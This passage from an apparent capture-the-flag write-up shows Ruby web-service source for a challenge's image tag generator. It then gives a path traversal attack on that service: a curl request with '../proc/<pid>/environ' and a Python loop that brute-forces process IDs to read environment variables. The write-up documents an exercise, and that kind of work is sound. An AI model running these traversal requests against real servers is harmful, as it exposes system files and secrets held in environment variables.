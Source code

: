 ```python

    get '/share' do
      if !params['id']
        raise 'ID is missing!'
      end

      filename = "#{ FINAL_FOLDER }/#{ params['id'] }.png"

      if File.exists?(filename)
        erb(:share, :locals => { id: params['id'] })
      else
        return 404, "Image not found!"
      end
    end

    post '/save' do
      payload = params
      payload = JSON.parse(request.body.read)

      data_url = payload['dataURL']
      png = Base64.decode64(data_url['data:image/png;base64,'.length .. -1])

      out_hash = Digest::SHA1.hexdigest png
      out_filename = "#{ out_hash }.png"
      out_path = "#{ FINAL_FOLDER }/#{ out_filename }"
      
      LOGGER.debug("output: #{out_path}")
      File.open(out_path, 'wb') { |f| f.write(png) }
      { id: out_hash }.to_json
    end
  end
end
```
* Finnaly, we are looking for a specific environment variable. `curl https://tag-generator.kringlecastle.com/image?id=../proc/<pid>/environ` would print the environmen variables in context of a process/pid. So, the following script did the job and got `GREETZ=JackFrostWasHere`

```python
import requests

for pid in range(10000):
    url = "https://tag-generator.kringlecastle.com/image?id=../proc/" + str(pid) + "/environ"
    res = requests.get(url)
    if(res.status_code == 200):
        print(pid)
        print(res.text)
        break
```

## O9 ARP Shenanigans
### Hints
